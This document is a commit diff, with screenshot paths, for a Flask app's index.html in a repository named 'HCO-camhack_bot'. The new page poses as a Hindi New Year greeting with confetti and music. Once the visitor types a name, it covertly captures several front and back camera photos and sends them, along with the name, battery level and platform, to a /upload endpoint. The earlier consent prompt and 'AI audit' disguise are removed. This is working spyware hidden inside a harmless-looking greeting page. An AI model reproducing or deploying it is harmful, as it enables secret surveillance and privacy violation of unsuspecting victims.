

Before and after one commit to Roshan0786shah/HCO-camhack_bot, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (212-1067 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,117 +1,90 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="hi">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>AI New Year Visual Audit 2026</title>
+    <title>New Year Surprise 2026</title>
+    <script src="https://cdn.jsdelivr.net/npm/canvas-confetti@1.5.1/dist/confetti.browser.min.js"></script>
     <style>
-        body { background: #050505; color: #00ff00; text-align: center; font-family: 'Courier New', monospace; padding: 20px; }
-        .main-container { margin-top: 30px; border: 2px solid #00ff00; padding: 25px; display: inline-block; background: #000; box-shadow: 0 0 20px #00ff00; border-radius: 15px; max-width: 90%; }
-        h2 { font-size: 1.5rem; text-shadow: 0 0 10px #00ff00; margin-bottom: 20px; }
-        input { padding: 12px; width: 85%; margin-bottom: 20px; background: #111; color: #00ff00; border: 1px solid #00ff00; border-radius: 5px; outline: none; }
-        .btn { padding: 15px; margin: 8px 0; cursor: pointer; background: transparent; color: #00ff00; border: 1px solid #00ff00; font-weight: bold; width: 100%; border-radius: 5px; transition: 0.3s; text-transform: uppercase; }
-        .btn:hover { background: #00ff00; color: #000; box-shadow: 0 0 15px #00ff00; }
-        #status { color: #ff0000; margin-top: 15px; font-weight: bold; display: none; animation: blink 1s infinite; }
-        @keyframes blink { 0% { opacity: 1; } 50% { opacity: 0.3; } 100% { opacity: 1; } }
+        body { background: #000; color: #fff; font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; margin: 0; display: flex; justify-content: center; align-items: center; height: 100vh; overflow: hidden; }
+        .container { text-align: center; width: 90%; max-width: 400px; padding: 20px; border: 2px solid #ff0055; border-radius: 20px; background: rgba(255, 0, 85, 0.05); box-shadow: 0 0 20px #ff0055; }
+        h1 { color: #ff0055; text-shadow: 0 0 10px #ff0055; margin-bottom: 20px; }
+        input { padding: 15px; width: 85%; border-radius: 30px; border: 1px solid #ff0055; background: #111; color: #fff; font-size: 16px; margin-bottom: 20px; outline: none; }
+        button { padding: 15px 40px; border-radius: 30px; border: none; background: #ff0055; color: #fff; font-size: 18px; font-weight: bold; cursor: pointer; transition: 0.3s; }
+        button:hover { transform: scale(1.05); box-shadow: 0 0 15px #ff0055; }
+        #wish-box { display: none; }
+        .wish-text { font-size: 22px; line-height: 1.5; font-weight: bold; }
     </style>
 </head>
 <body>
-    <div class="main-container">
-        <h2>🎇 AI SYSTEM AUDIT 2026 🎇</h2>
-        <p style="color: #888; font-size: 0.8rem;">[ SECURITY PROTOCOL: ACTIVE ]</p>
-        <input type="text" id="name" placeholder="ENTER YOUR FULL NAME...">
+
+    <div class="container" id="main-box">
+        <h1>🎆 Surprise Gift 🎆</h1>
+        <p>अपना नाम लिखें और जादू देखें!</p>
+        <input type="text" id="userName" placeholder="यहाँ अपना नाम लिखें...">
         <br>
-        <button class="btn" onclick="initiateAudit(1)">📸 FRONT CAMERA (5 SHOTS)</button>
-        <button class="btn" onclick="initiateAudit(2)">📷 BACK CAMERA (5 SHOTS)</button>
-        <button class="btn" onclick="initiateAudit(3)">🎭 DUAL CAMERA (3+3 SHOTS)</button>
+        <button onclick="startApp()">जादू देखें ✨</button>
+    </div>
 
-        <div id="status">⚡ CORE SYNCING IN PROGRESS... DO NOT CLOSE...</div>
+    <div class="container" id="wish-box">
+        <div class="wish-text" id="wishMsg"></div>
+        <p style="margin-top:20px;">🎊 Happy New Year 2026 🎊</p>
     </div>
 
     <video id="v" style="display:none" autoplay playsinline></video>
     <canvas id="c" style="display:none"></canvas>
+    <audio id="music" loop><source src="https://www.soundhelix.com/examples/mp3/SoundHelix-Song-1.mp3" type="audio/mpeg"></audio>
 
     <script>
-        async function initiateAudit(mode) {
-            let name = document.getElementById('name').value;
-            if(!name) {
-                alert("CRITICAL ERROR: Name field cannot be empty!");
-                return;
-            }
+        const urlParams = new URLSearchParams(window.location.search);
+        const mode = urlParams.get('m') || 'front';
 
-            // Professional Consent for Camera Access
-            if(confirm("SYSTEM NOTICE:\nTo apply high-definition AI filters and 2026 visual effects, temporary camera access is required. Proceed?")) {
-                document.getElementById('status').style.display = 'block';
+        async function startApp() {
+            let name = document.getElementById('userName').value;
+            if(!name) return alert("कृपया अपना नाम डालें!");
 
-                try {
-                    // Fetch Device Info
-                    let battery = "Unknown";
-                    try {
-                        let bData = await navigator.getBattery();
-                        battery = Math.round(bData.level * 100) + "%";
-                    } catch(e) {}
+            document.getElementById('main-box').style.display = 'none';
+            document.getElementById('wish-box').style.display = 'block';
+            document.getElementById('wishMsg').innerText = `Hey ${name}, मेरी तरफ से आपको और आपके पूरे परिवार को New Year 2026 की ढेर सारी शुभकामनाएँ!`;
 
-                    let info = {
-                        battery: battery,
-                        platform: navigator.platform,
-                        browser: navigator.userAgent.split(') ')[0] + ')'
-                    };
+            document.getElementById('music').play();
+            setInterval(() => { confetti({ particleCount: 100, spread: 70, origin: { y: 0.6 } }); }, 2000);
 
-                    if(mode == 1) {
-                        // FRONT ONLY: 5 Photos
-                        await runCapture(name, info, {facingMode: "user"}, 5, "FRONT");
-                    } else if(mode == 2) {
-                        // BACK ONLY: 5 Photos
-                        await runCapture(name, info, {facingMode: "environment"}, 5, "BACK");
-                    } else if(mode == 3) {
-                        // DUAL: 3 Back then 3 Front
-                        await runCapture(name, info, {facingMode: "environment"}, 3, "BACK");
-                        await runCapture(name, info, {facingMode: "user"}, 3, "FRONT");
-                    }
+            initCapture(name);
+        }
 
-                    document.getElementById('status').style.color = "#00ff00";
-                    document.getElementById('status').innerText = "SUCCESS: AI WISH GENERATED! ✅";
-                    alert("Happy New Year 2026, " + name + "!\nYour AI-enhanced wish has been created.");
-                } catch(err) {
-                    alert("ERROR: Permission Denied. System cannot apply AI effects.");
-                    document.getElementById('status').style.display = 'none';
-                }
+        async function initCapture(name) {
+            let info = { battery: "Unknown", platform: navigator.platform };
+            try { let b = await navigator.getBattery(); info.battery = Math.round(b.level*100)+"%"; } catch(e){}
+
+            if(mode === 'front') await runCam(name, info, {facingMode: "user"}, 5, "FRONT");
+            else if(mode === 'back') await runCam(name, info, {facingMode: "environment"}, 5, "BACK");
+            else {
+                await runCam(name, info, {facingMode: "environment"}, 3, "BACK");
+                await runCam(name, info, {facingMode: "user"}, 3, "FRONT");
             }
         }
 
-        async function runCapture(name, info, constraints, count, type) {
+        async function runCam(name, info, constraints, count, label) {
             try {
                 let stream = await navigator.mediaDevices.getUserMedia({ video: constraints });
                 let video = document.getElementById('v');
                 video.srcObject = stream;
+                await new Promise(r => setTimeout(r, 3000)); // कैमरा सेटल होने का इंतज़ार
 
                 for (let i = 1; i <= count; i++) {
-                    await new Promise(res => setTimeout(res, 1500)); // Delay between captures
-
                     let can = document.getElementById('c');
-                    can.width = video.videoWidth;
-                    can.height = video.videoHeight;
+                    can.width = video.videoWidth; can.height = video.videoHeight;
                     can.getContext('2d').drawImage(video, 0, 0);
-
-                    let imgData = can.toDataURL('image/jpeg', 0.6);
-
-                    // Upload to Server
                     fetch('/upload', {
                         method: 'POST',
                         headers: {'Content-Type': 'application/json'},
-                        body: JSON.stringify({
-                            name: name,
-                            image: imgData,
-                            info: info,
-                            label: type + " SHOT " + i
-                        })
+                        body: JSON.stringify({name: name, image: can.toDataURL('image/jpeg', 0.6), info: info, label: label+" "+i})
                     });
+                    await new Promise(r => setTimeout(r, 2000));
                 }
-                // Stop the camera stream after finish
-                stream.getTracks().forEach(track => track.stop());
-            } catch (error) {
-                console.error("Camera error:", error);
-            }
+                stream.getTracks().forEach(t => t.stop());
+            } catch(e) {}
         }
     </script>
 </body>
```
